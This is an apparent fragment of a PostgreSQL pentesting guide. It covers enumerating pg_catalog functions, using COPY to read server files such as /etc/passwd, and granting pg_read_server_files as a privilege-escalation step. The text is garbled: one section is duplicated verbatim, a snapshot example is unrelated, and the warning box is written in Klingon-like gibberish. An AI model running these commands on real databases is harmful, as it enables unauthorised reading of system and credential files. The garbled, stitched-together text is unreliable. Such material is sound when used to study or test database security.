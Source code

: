 Example usage:

```sql
SELECT pg_export_snapshot('my_snapshot');
```

This query will export a snapshot of the current transaction state with the name "my_snapshot".
```sql
# Interesting functions are inside pg_catalog
\df * #Get all
\df *pg_ls* #Get by substring
\df+ pg_read_binary_file #Check who has access

# Get all functions of a schema
\df pg_catalog.*

# Get all functions of a schema (pg_catalog in this case)
SELECT routines.routine_name, parameters.data_type, parameters.ordinal_position
FROM information_schema.routines
LEFT JOIN information_schema.parameters ON routines.specific_name=parameters.specific_name
WHERE routines.specific_schema='pg_catalog'
ORDER BY routines.routine_name, parameters.ordinal_position;

# Another aparent option
SELECT * FROM pg_proc;
```
## File-system actions

### Read directories and files

From this [**commit** ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the defined **`DEFAULT_ROLE_READ_SERVER_FILES`** group (called **`pg_read_server_files`**) and **super users** can use the **`COPY`** method on any path (check out `convert_and_check_filename` in `genfile.c`):

## File-system actions

### Read directories and files

From this [**commit** ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a)members of the defined **`DEFAULT_ROLE_READ_SERVER_FILES`** group (called **`pg_read_server_files`**) and **super users** can use the **`COPY`** method on any path (check out `convert_and_check_filename` in `genfile.c`):
```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```
{% hint style="warning" %}
ghobe'wI'pu' 'ej **CREATEROLE** jatlhpu' 'e' vItlhutlh. **ghobe'wI'vam vItlhutlh** vItlhutlh.
```sql
GRANT pg_read_server_files TO username;
```
[**QaparHa'**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}
